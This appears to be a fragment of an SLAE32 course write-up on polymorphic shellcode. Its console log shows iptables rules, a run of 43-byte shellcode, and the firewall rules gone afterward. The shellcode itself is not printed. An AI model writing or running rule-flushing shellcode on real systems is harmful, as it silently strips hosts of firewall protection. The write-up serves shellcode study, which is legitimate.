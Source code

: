 #### Polymorphic Shellcode

{% highlight console linenos %}
root@ubuntu:/home/kecebong/slae32/assigment/poly# iptables -nvL
Chain INPUT (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         
   12   720 ACCEPT     tcp  --  *      *       0.0.0.0/0            0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 6 packets, 1696 bytes)
 pkts bytes target     prot opt in     out     source               destination  

root@ubuntu:/home/kecebong/slae32/assigment/poly# make target=iptables-poly run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  43

root@ubuntu:/home/kecebong/slae32/assigment/poly# iptables -nvL
Chain INPUT (policy ACCEPT 7 packets, 400 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 4 packets, 560 bytes)
 pkts bytes target     prot opt in     out     source               destination  
{% endhighlight %}

#### Demo
![image](/assets/img/assigment6_1.gif)
